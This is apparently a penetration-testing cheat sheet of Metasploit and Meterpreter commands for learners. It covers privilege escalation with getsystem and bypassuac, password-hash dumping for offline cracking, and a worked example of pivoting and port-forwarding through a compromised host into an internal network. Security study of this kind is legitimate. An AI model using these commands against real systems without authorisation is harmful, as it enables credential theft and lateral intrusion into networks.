 Tip: Use `show payloads` when an exploit is selected to show only the available payloads for that exploit  
Tip: Use `info` when an exploit is selected to get information about the exploit  
Tip: Use `back` when an exploit is selected to return to unselect it  

#### Meterpreter
Inside metasploit:
  - `search meterpreter`
  - `set payload <payload-path>`
  - `background`
  - `sessions -l` (list the sessions)
  - `sessions -i <session-id>` (resume a background session)
  - `sysinfo`
  - `ifconfig`
  - `route`
  - `getuid`
  - `getsystem`
  - You can use Unix-like commands like `pwd`, `ls`, `cd`...
  - `download <filename> <location>`
  - `upload <filename> <location>`
  - `shell`
  - `hashdump`
  - `run autoroute -h`
  - `run autoroute -s 192.130.110.0 -n 255.255.255.0 ` (pivoting towards that network)

Tip: `help` shows an amazing list of available commands divided by category  
Tip: If `getsystem` fails, use `use exploit/windows/local/bypassuac`  
Tip: `ps -U SYSTEM` shows only the processes with SYSTEM privileges  
Tip: Use `post/windows/gather/hashdump` to dump the passwords DB and save it for an offline cracking session  

#### Pivoting with Meterpreter
Let's say we have compromised a machine using metasploit and we have a meterpreter shell with session id 1. We discover that there is another machine but it's reachable only from the compromised machine.  
Our IP: `192.180.40.2`  
Compromised host: `192.180.40.3`  
Unreachable machine: `192.130.110.3`  

- `meterpreter > run autoroute -s 192.130.110.0 -n 255.255.255.0 1`
- `background`
- `msf > route`

If we want to scan the `192.130.110.0/24` network we can use:
```
msf > use auxiliary/scanner/portscan/tcp
msf > set PORTS 80, 8080, 445, 21, 22, ...
msf > set RHOSTS 192.130.110.1-254
msf > exploit
```

If we discover that at least one port is open and we want to target a specific port on a specific host (e.g. `192.130.110.3:21`) we can use:
  - `sessions 1` (back to meterpreter session)
  - `portfwd add -l 1234 -p 21 -r 192.130.110.3` (forwarding remote machine port 21 to the local machine port 1234)
  - `portfwd list`
  - `background`
